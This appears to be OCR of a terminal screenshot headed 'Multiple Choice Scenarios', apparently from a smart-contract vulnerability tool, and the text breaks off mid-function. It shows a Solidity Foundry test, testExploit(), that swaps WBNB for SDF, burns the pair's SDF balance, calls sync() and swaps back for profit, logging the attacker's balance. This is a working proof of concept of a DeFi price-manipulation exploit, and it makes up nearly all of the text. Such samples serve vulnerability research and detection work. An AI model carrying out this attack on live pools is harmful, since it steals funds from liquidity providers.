 ╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function testExploit() public{                                                                                                                                                                                                                   │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "[Start] Attacker WBNB balance before exploit",                                                                                                                                                                                          │
│             WBNB.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         address(WBNB).call{value: 0.01 ether}("");                                                                                                                                                                                                   │
│         WBNBToSDF();                                                                                                                                                                                                                                 │
│         SDF.burn(address(Pair), SDF.balanceOf(address(Pair)) - 1);                                                                                                                                                                                   │
│         Pair.sync();                                                                                                                                                                                                                                 │
│         SDFToWBNB();                                                                                                                                                                                                                                 │
│                                                                                                                                                                                                                                                      │
│          emit log_named_decimal_uint(                                                                                                                                                                                                                │
│             "[End] Attacker WBNB balance after exploit",                                                                                                                                                                                             │
│             WBNB.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │